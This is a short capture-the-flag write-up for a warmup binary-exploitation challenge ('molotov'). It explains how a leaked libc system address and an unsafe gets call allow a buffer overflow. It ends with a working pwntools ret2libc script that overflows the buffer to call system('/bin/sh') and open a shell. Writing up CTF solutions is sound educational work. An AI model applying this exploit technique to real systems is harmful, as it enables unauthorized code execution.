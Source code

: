 
![task1](imgs/1.png)
### Information
It was a warmup challenge, 
We were given a 32bit ELF file.

![task1](imgs/2.png)

Running the binary, we can see that it's leaking an address, then asking for an input.

![task1](imgs/3.png)

While decompiling using IDA, we can see that the program is leaking system address, then reading an input using gets, and as we know , gets is a dangerous function that leads to buffer overflow.

### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
p = process("./molotov")
system = int("0x"+p.recvline().rstrip("\n"),16)
base = system - libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.warn("base = "+hex(base))
payload = ""
payload += "A"*32
payload += p32(system)
payload += "JUNK"
payload += p32(binsh)
p.sendline(payload)
p.interactive()
```
